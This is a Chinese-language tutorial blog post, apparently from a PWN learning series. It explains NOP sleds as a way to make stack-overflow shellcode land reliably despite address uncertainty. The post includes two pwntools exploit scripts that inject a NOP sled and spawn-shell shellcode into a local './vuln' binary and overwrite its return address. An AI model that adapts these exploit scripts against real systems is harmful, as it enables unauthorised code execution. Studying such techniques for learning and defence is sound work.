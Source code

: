 ```yaml
---
title: NOPs
subtitle: 更可靠的 shellcode
date: 2023-08-08T14:29:14+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: true
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

{{<admonition type="info" title="例子">}}

为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）

{{</admonition>}}

不用 NOP Sled，函数返回地址 ---> 攻击代码</br>
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

<!--more-->

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 EXP

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

{{<admonition type="warning">}}

确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。

{{</admonition>}}

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 使用 NOP
payload = b'\x90' * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOP 长度
payload += p32(0xffffd6b4 + 120)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。

{{</admonition>}}

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 使用 NOP
payload = asm(shellcraft.nop()) * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOP 长度
payload += p32(0xffffd6b4 + 120)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```
